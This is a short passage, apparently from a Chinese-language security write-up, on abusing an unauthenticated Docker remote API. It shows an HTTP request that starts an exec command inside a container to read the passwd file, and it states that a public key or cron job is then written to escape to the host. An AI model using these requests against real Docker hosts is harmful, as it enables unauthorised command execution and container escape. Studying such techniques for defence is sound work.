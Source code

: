 [![](assets/1708095739-5e48fbcb37e25dd12fdc07150bfcc705.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211520-ba153a64-e5c6-1.png)  
3、执行 exec 中的命令，成功读取 passwd 文件

```plain
POST /exec/<exec_id>/start HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json

{
 "Detach": false,
 "Tty": false
}
```

[![](assets/1708095739-e443bad820a6d1be1f9fd2ed2a2c19f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211540-c5d2aa26-e5c6-1.png)  
这种方式只是获取到了 docker 主机的命令执行权限，但是还无法逃逸到宿主机。因此还是需要写公钥或者计时任务进行逃逸
